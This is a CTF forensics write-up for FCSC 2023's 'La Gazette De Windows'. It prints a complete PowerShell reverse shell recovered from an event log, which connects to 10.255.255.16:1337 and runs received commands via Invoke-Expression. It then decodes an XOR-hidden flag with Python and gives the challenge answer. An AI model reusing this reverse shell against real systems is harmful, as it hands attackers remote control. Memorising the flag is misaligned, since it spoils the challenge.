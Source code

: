 ```yaml
---
title: "[FCSC 2023] - La Gazette De Windows"
date: 2023-04-24
author: me
categories: [writeups]
tags: ["Forensic", "FCSC"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>

*Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.*

<i class="fas fa-paperclip"></i> [Microsoft-Windows-PowerShell4Operational.evtx](/assets/attachments/Microsoft-Windows-PowerShell4Operational.evtx)



<br>

_____________________________________________________

## Given files 

We are given an evtx Windows log file:

![0](/images/gazette/step1.png)

## Recon

![0](/images/gazette/step2.png)

By looking at each event, we can notice an interesting powershell script on the fifth event

```powershell

do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()

```

We can see a very long hexa string which may be the flag. Each character is XORed with the i-th value (from 0 to 71).<br>
We know that the main properties of XOR are associativity and commutativity, so we can write the following:
- A ⊕ B = C
- A ⊕ C = B
- B ⊕ C = A

So in this case, if we admit that the `$l` is our XORed flag, we have:
- ord(F) ⊕ 0 = 0x46
- ord(C) ⊕ 1 = 0x42
- ord(S) ⊕ 2 = 0x51
- ord(C) ⊕ 3 = 0x40
- ord({) ⊕ 4 = 0x7F
- ...

>In python, the `ord()` function returns an integer representing the Unicode character.
{: .prompt-tip }

So we just have to reverse this, in order to get the flag.

## Exploit

```python
l = [0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D]
flag = ""

for i in range(len(l)):
	flag += chr(l[i] ^ i)

print(flag)
```

> 🚩`FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}`